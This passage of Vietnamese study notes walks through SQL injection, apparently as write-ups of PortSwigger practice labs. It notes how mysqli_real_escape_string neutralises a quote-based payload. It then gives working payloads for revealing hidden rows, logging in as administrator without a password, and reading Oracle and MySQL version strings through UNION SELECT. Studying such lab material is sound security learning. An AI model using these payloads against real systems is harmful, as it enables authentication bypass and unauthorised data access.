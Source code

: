 ⇒ Nhận xét:
+ Trước khi thực thi: $email là `' ORDER BY 1-- '`.
+ Sau khi thực thi: $email trở thành `\' ORDER BY 1-- \'` (ký tự ' được thoát thành \')
⇒ Hàm `mysqli_real_escape_string` bảo vệ bằng cách thoát ký tự nguy hiểm, ngăn payload SQLI hoạt động

## IV. Labs from [portswigger.net](http://portswigger.net/)

1. **Lab 1: retrieve hidden data**

<aside>
💡

To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products

</aside>

- code: `' OR 1=1--`
- Lúc này QUERY sẽ thành: `SELECT * FROM products WHERE category = 'Lifestyle' OR 1=1 -- ' AND released = 1`
⇒ Sau phần - - thì AND realeased = 1 kia sẽ bị lược bỏ, query sẽ trả về toàn bộ bảng products, bao gồm cả sản phẩm bị ẩn
1. **Lab 2: login as administrator**

<aside>
💡

To solve the lab, perform a SQL injection attack that logs in to the application as the `administrator` user

</aside>

- dùng `administrator--`
=> Query sẽ thành `SELECT * FROM users WHERE username = 'administrator'--' AND password = 'abc';` ⇒ Ta sẽ login vào được tài khoản admin mà không cần mật khẩu

1. **Lab 3: check version of Oracle**

<aside>
💡

To solve the lab, display the database version string

</aside>

- code: `' UNION SELECT banner, NULL FROM v$version--`

1. **Lab 4: check version of MySQL**
- MySQL có 2 kiểu comment là `#` và `--` . Nhưng chúng có sự khác nhau:
Dấu `#` comment đến cuối dòng, bỏ qua phần còn lại trên cùng một dòng.
Dấu `-` (hai dấu gạch ngang) cũng comment đến cuối dòng, nhưng phải có ít nhất một dấu cách hoặc ký tự trắng ngay sau `-` để được hiểu là comment hợp lệ
- Để dùng comment kiểu `--` thì: 
Với Burp Site: dùng`'+UNION+SELECT+'abc','def'-- k`  (k là ký tự bất kỳ). Hoặc nếu thích dùng comment kiểu `#` thì dùng lệnh `'+UNION+SELECT+'abc','def'#`
Với trình duyệt: dùng `' UNION SELECT 'a','b'-- k`
- Lý do không dùng `#` ở trên trình duyệt được là do trình duyệt tự động cắt mất dấu #
- Kiểm tra số cột mà query trả về: dùng `' ORDER BY 2 -- k`
- Code hoàn chỉnh: `' UNION SELECT @@version, NULL-- k`

